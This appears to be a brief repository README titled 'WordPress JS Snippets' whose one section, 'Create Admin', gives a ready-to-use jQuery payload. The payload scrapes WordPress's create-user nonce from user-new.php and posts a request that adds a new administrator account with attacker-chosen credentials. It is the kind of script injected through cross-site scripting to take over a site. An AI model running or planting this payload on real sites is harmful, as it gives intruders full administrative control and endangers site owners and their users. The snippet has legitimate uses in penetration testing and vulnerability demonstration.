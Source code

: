 # WordPress JS Snippets #

## Create Admin ##
Minimal-ish JS payload to grab a new user nonce and use it to create a new administrator. Configurable bits at the start (path to WordPress root, username, email address, and password for the new user).

`u='/path-to-wp-root';un='username';em='em@a.il',pw='passwurd!';nu=u+'/wp-admin/user-new.php';j=jQuery;j.get(nu,function(d){n=d.split("_wpnonce_create-user\" value=\"")[1].split("\"")[0];j.post(nu,{action:'createuser','_wpnonce_create-user':n,'_wp_http_referer':nu,'user_login':un,email:em,'first_name':'','last_name':'',url:'',pass1:pw,'pass1-text':pw,pass2:pw,'pw_weak':'on','send_user_notification':'0',role:'administrator',createuser:'Add New User'});})`

